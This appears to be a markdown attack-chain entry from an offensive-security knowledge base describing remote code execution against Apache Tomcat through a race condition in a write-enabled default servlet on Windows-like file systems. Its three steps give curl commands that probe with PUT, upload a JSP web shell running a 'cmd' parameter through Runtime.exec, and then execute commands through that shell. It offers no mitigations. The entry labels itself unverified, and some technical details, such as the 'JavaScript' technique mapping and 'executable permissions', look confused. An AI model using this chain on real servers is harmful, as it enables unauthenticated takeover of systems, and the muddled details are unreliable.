

---
tags:
  - rce
  - tomcat
  - race-condition
  - file-upload
  - bypass
  - windows
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Write-Enabled-Default-Servlet-in-Tomcat]]'
  - '[[procedures/Exploit-Race-Condition-for-JSP-Upload-Bypass]]'
  - '[[procedures/Execute-Uploaded-JSP-for-Remote-Code-Execution]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:23:37.078Z'
description: >-
  Multi-stage attack exploiting a race condition in Apache Tomcat's default
  servlet to upload and execute JSP code, bypassing extension filters on
  Windows-like file systems.
skill_level: intermediate
impact_level: high
id: 9d7d3895-b7d0-4e50-a9a0-0ad55a72ee63
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# RCE in Apache Tomcat via Race Condition in Write-Enabled Default Servlet on Case-Insensitive File Systems

Multi-stage attack chain demonstrating a complete attack workflow exploiting a vulnerability in Apache Tomcat's default servlet to achieve remote code execution through JSP file upload bypass on case-insensitive file systems like Windows.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or HTTP client (e.g., curl for testing PUT requests)
- Load testing tool (e.g., Apache Bench or custom script for concurrent requests)

### Target Environment

- Apache Tomcat server with default servlet configured (readonly=false)
- Case-insensitive file system (e.g., Windows)
- Open port 8080 (default Tomcat port)
- Network access to the web application

### Initial Access Requirements

- No credentials required if servlet is publicly accessible
- Direct network connectivity to the Tomcat instance
- No prior access needed beyond reaching the server

## Detailed Attack Procedures

### Step 1: Identify Write-Enabled Default Servlet
procedure: [[procedures/Identify-Write-Enabled-Default-Servlet-in-Tomcat]]

**Objective**: Confirm the presence of a write-enabled default servlet in Apache Tomcat on a case-insensitive file system, enabling file upload capabilities.

**Instructions**: Probe the Tomcat server for the default servlet configuration by attempting a simple PUT request to a test path. Use a tool like curl to send a PUT request:

```bash
curl -X PUT -d "test content" http://target:8080/test.txt
```

If successful, the server accepts the upload, indicating readonly=false.

**Expected Output**: HTTP 201 Created or 204 No Content, with the file persisted on the server.

**Success Indicators**:
- File upload succeeds without authentication
- Server responds positively to PUT requests on the root path

### Step 2: Exploit Race Condition for JSP Upload Bypass
procedure: [[procedures/Exploit-Race-Condition-for-JSP-Upload-Bypass]]

**Objective**: Leverage a race condition between concurrent read and upload operations to bypass case-sensitive JSP extension filters, uploading an executable file with an uppercase extension.

**Instructions**: Generate load on the server to trigger the race. Use a load testing tool to send multiple concurrent read requests to an existing file (e.g., /webapps/ROOT/index.html), while simultaneously uploading a JSP file with uppercase extension (e.g., shell.JSP) to the same path via PUT:

Concurrent read (repeat many times):
```bash
curl -X GET http://target:8080/index.html
```

Upload JSP (with malicious code, e.g., <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>):
```bash
curl -X PUT -d "<% Runtime.getRuntime().exec(request.getParameter(\"cmd\")); %> " http://target:8080/shell.JSP
```

The race causes the server to treat .JSP as executable despite filters blocking .jsp.

**Expected Output**: Upload succeeds (HTTP 201/204), and the file is stored with executable permissions.

**Success Indicators**:
- Concurrent operations complete without errors
- Uploaded file is accessible and treated as JSP

### Step 3: Execute Uploaded JSP for Remote Code Execution
procedure: [[procedures/Execute-Uploaded-JSP-for-Remote-Code-Execution]]

**Objective**: Trigger execution of the uploaded JSP file to run arbitrary commands on the server.

**Instructions**: Access the uploaded JSP file via a GET request with parameters to execute commands. For example, to run a command like 'whoami':

```bash
curl "http://target:8080/shell.JSP?cmd=whoami"
```

The JSP interprets the request and executes the command, returning output.

**Expected Output**: Command output embedded in the HTTP response, e.g., server username or error if blocked.

**Success Indicators**:
- Response contains command execution results
- Arbitrary code runs on the server (e.g., system info leaked)

## Attack Chain Summary

### Key Achievements

1. Bypassed JSP extension filters using case-insensitivity and race conditions
2. Uploaded executable web shell to Tomcat server
3. Achieved full remote code execution without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-10-01T00:00:00Z*
